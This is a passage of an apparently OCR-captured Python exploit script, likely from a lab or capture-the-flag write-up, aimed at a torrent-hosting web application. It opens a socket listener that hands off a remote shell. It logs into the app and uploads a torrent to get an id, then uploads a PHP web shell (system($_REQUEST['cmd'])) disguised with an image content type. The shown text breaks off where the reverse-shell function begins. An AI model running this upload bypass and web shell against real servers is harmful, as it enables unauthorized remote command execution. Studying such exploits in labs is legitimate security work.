 ```py
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to login on the web app
def loginApp(rhost,username,password):
    print("[+] Let's Login on the APP !!! [+]")
    url = "http://%s:80/torrent/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    r.get(url, proxies=proxies)
    data = {"username": "%s" %username, "password": "%s" %password}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies)
    print("[+] Logged In !!! [+]")
    
# Function to simple upload a valid torrent file
def maliciousUpload(rhost):
    print("[+] Let's upload the valid torrent file !! [+]")
    url = "http://%s:80/torrent/torrents.php?mode=upload" %rhost
    data = 'ZDg6YW5ub3VuY2UzNTp1ZHA6Ly90cmFja2VyLm9wZW5iaXR0b3JyZW50LmNvbTo4MDEzOmNyZWF0aW9uIGRhdGVpMTMyNzA0OTgyN2U0OmluZm9kNjpsZW5ndGhpMjBlNDpuYW1lMTA6c2FtcGxlLnR4dDEyOnBpZWNlIGxlbmd0aGk2NTUzNmU2OnBpZWNlczIwOlzF5lK+DebyeAWzBGT/mwD0ifDJNzpwcml2YXRlaTFlZWU='
    os.system("echo %s | base64 -d > /tmp/file.torrent"%data)
    multipart_data = {
        'torrent': ('0x4rt3mis.torrent', open('/tmp/file.torrent', 'rb'), "application/x-bittorrent"),
        'filename' : (None,"0x4rt3mis.torrent"),
        'type' : (None,"5"),
        'subtype': (None,"23"),
        'submit' : (None,"Upload Torrent")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    
def getTorrentIT(rhost):
    print("[+] Let's get the id from our torrent uploaded !! [+]")
    url = "http://%s:80/torrent/index.php?mode=directory" %rhost
    torrent_page = r.get(url, proxies=proxies, cookies=r.cookies)
    index = torrent_page.text.find("0x4rt3mis")
    torrent_id = torrent_page.text[index:index+128].split('"')[1]
    global torrent_id_true
    torrent_id_true = torrent_id.split('=')[2]
    print("[+] The torrent it we need is: %s [+]" %torrent_id_true)

# Function to simple upload the malicious php file
def maliciousUploadPHP(rhost,torrent_id_true):
    print("[+] Let's upload the php malicious file !! [+]")
    url = "http://%s:80/torrent/upload_file.php?mode=upload&id=%s" %(rhost,torrent_id_true)
    data = "<?php system($_REQUEST[\"cmd\"]); ?>"
    multipart_data = {
        'file': ('0x4rt3mis.php', data, "image/jpeg"),
        'submit' : (None,"Submit Screenshot")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    print("[+] Done, uploaded ! Let's get the reverse !! [+]")
    
# Function to get the reverse shell working
def getReverse(rhost,lhost,lport,torrent_id_true):
```